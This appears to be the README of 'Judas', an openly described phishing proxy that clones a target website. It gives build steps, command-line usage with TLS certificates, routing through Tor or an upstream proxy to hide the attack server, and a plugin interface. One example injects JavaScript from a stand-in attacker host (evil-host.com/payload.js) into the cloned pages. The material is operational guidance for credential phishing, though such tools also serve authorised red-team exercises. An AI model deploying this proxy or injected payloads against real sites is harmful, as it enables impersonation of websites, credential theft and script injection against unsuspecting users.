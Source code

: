 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build Judas, first, get the dependencies:
 ```
 go get golang.org/x/net/proxy
 go get github.com/PuerkitoBio/goquery
 go build -o judas *.go
 ```

 Next, build the logging plugin if you want to see responses on the console.
```
go build -buildmode=plugin -o loggingplugin.so bundled/loggingplugin.go
```

To add other plugins, simply place the .so files into the same directory as the judas executable.

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Custom plugins
--------------
To create your own plugin, simply create a Go plugin using the standard library plugin package (https://golang.org/pkg/plugin/).

Judas looks for the following symbols:
```
var Name string
func Initialize() (plugins.PluginArguments, error)
func ProcessTransactions(transactions <-chan plugins.HTTPTransaction, arguments plugins.PluginArguments)
```